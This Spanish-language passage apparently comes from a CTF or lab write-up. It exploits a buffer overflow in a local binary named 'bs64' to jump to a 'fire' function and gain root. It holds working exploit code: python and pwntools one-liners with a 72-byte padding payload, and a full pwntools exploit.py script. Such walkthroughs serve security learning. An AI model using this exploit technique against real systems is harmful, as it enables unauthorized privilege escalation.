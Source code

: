 ```
\x6a\x13\x40\x00\x00\x00\x00\x00
```

Por lo que tendremos que enviar el siguiente `payload` al binario:

```shell
python3 -c "import sys; sys.stdout.buffer.write(b'A' * 72 + b'\x6a\x13\x40\x00\x00\x00\x00\x00')" | ./bs64
```

Pero nos da un error al intentar rellenar el `EIP` con la funcion `fire`, aunque lo intentemos de forma manual no se por que no va de ninguna manera, sigue dando un error, por lo que probaremos a montarnos un script con el paquete `pwn` para que nos facilite mas la tarea.

***

> NOTA

La forma manual nos puede estar dando un error por el echo de que la direccion puede tener caracteres especiales que no estan siendo escapados correctamente, por lo que a la hora de hacerlo con un script esos caracteres se incluyen de forma correcta, este comando si se ejecutaria bien:

```shell
python3 -c "from pwn import *; p=process('./bs64'); p.sendline(b'A' * 72 + p64(0x40136b)); p.interactive()"
```

Y con esto ya seremos `root`, pero si queremos hacerlo con un script bien echo, seria de la siguiente forma.

***

```shell
cd /tmp
```

> exploit.py

```python
#!/bin/python3

from pwn import *

# Configuración del binario
binary = '/home/astu/secure/bs64'  # Reemplaza con la ruta del binario
context.binary = binary

# Cargar el binario
elf = ELF(binary)
p = process(binary)

# Dirección de la función "fire"
fire_func = 0x40136b  # Dirección de la función fire

# Crear el payload
payload = b"A" * 72  # Relleno hasta el EIP (offset de 72 bytes)
payload += p64(fire_func)  # Dirección de la función "fire"

# Enviar el payload
log.info(f"Enviando payload: {payload}")
p.sendline(payload)

# Mantener la interacción
p.interactive()
```
